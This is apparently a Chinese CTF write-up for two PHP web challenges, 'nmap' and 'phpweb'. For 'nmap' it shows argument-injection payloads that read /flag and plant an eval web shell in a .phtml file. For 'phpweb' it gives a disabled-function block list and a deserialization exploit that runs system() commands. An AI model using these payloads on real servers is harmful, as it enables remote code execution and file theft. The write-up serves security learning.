


nmap那题就基本命令然后还有一个别的方法。
nmap
源码
index.php
1 | |
2 | require('settings.php'); |
3 | |
4 | |
5 | set_time_limit(0); |
6 | if (isset($_POST['host'])): |
7 | if (!defined('WEB_SCANS')) { |
8 | die('Web scans disabled'); |
9 | } |
10 | |
11 | $host = $_POST['host']; |
12 | if(stripos($host,'php')!==false){ |
13 | die("Hacker..."); |
14 | } |
15 | $host = escapeshellarg($host); |
16 | $host = escapeshellcmd($host); |
17 | |
18 | $filename = substr(md5(time() . rand(1, 10)), 0, 5); |
19 | $command = "nmap ". NMAP_ARGS . " -oX " . RESULTS_PATH . $filename . " " . $host; |
20 | $result_scan = shell_exec($command); |
21 | if (is_null($result_scan)) { |
22 | die('Something went wrong'); |
23 | } else { |
24 | header('Location: result.php?f=' . $filename); |
25 | } |
26 | else: |
27 | |
settings.php
1 | |
2 | # Path where all files stored |
3 | # Example values: /home/node/results/ |
4 | # Or just: xml/ |
5 | # Must be readble/writable for web server! so chmod 777 xml/ |
6 | define('RESULTS_PATH', 'xml/'); |
7 | |
8 | # Nmap string arguments for web scanning |
9 | # Example: -sV -Pn |
10 | define('NMAP_ARGS', '-Pn -T4 -F --host-timeout 1000ms'); |
11 | |
12 | # Comment this line to disable web scans |
13 | define('WEB_SCANS', 'enable'); |
14 | |
15 | # URL of application |
16 | # for example: http://example.com/scanner/ |
17 | # Or just: /scanner/ |
18 | define('APP_URL', '/'); |
19 | |
20 | # Secret word to protect webface (reserved) |
21 | # Uncomment to set it! |
22 | # define('secret_word', 'passw0rd1337'); |
23 | |
24 | |
第一种方法
用的是nmap,提示
一开始以为是ping命令，后来发现过滤了php。
后来试了下nmap的命令组合成功了。
payload:
1 | ' -iL /flag -oN flag.txt ' |
存入flag.txt之后直接访问就行了
第二种
PHP-escapeshell-命令执行
因为过滤了php,可以用phtml绕过，里面的内容用短标签
逃逸单引号
1 | host='<?=eval($_GET[a]);?> -oN flag.phtml ' |
phpweb
利用func=file_get_contents&p=index.php拿到源码
1 | |
2 | $disable_fun = array("exec","shell_exec","system","passthru","proc_open" |
3 | ,"show_source","phpinfo","popen","dl","eval","proc_terminate","touch" |
4 | ,"escapeshellcmd","escapeshellarg","assert","substr_replace" |
5 | ,"call_user_func_array","call_user_func","array_filter", "array_walk" |
6 | ,"array_map","registregister_shutdown_function","register_tick_function" |
7 | ,"filter_var", "filter_var_array", "uasort", "uksort", "array_reduce" |
8 | ,"array_walk","array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"); |
9 | function gettime($func, $p) { |
10 | $result = call_user_func($func, $p); //call_user_func — 把第一个参数作为回调函数调用 |
11 | $a= gettype($result); //返回 PHP 变量的类型 var. |
12 | if ($a == "string") { |
13 | return $result; |
14 | } else { |
15 | return ""; |
16 | } |
17 | } |
18 | class Test { |
19 | var $p = "Y-m-d h:i:s a"; |
20 | var $func = "date"; |
21 | function __destruct() { |
22 | if ($this->func != "") { |
23 | echo gettime($this->func, $this->p); |
24 | } |
25 | } |
26 | } |
27 | $func = $_REQUEST["func"]; |
28 | $p = $_REQUEST["p"]; |
29 | |
30 | if ($func != null) { |
31 | $func = strtolower($func); |
32 | if (!in_array($func,$disable_fun)) { |
33 | echo gettime($func, $p); |
34 | }else { |
35 | die("Hacker..."); |
36 | } |
37 | } |
38 | |
反序列化Test,利用call_user_func函数进行绕过，文件名匹配可以用反序列化绕过
1 | |
2 | class Test { |
3 | var $p = "Y-m-d h:i:s a"; |
4 | var $func = "date"; |
5 | function __destruct() { |
6 | if ($this->func != "") { |
7 | echo gettime($this->func, $this->p); |
8 | } |
9 | } |
10 | } |
11 | |
12 | $a = new Test(); |
13 | $a -> p="ls ../../../../../"; |
14 | $a -> func = "system"; |
15 | print_r(urlencode(serialize($a))); |

1 | $a = new Test(); |
2 | $a -> p="cat /tmp/flagoefiu4r93"; |
3 | #$a -> p="find / -name flag*"; |
4 | $a -> func = "system"; |
5 | print_r(urlencode(serialize($a))); |

```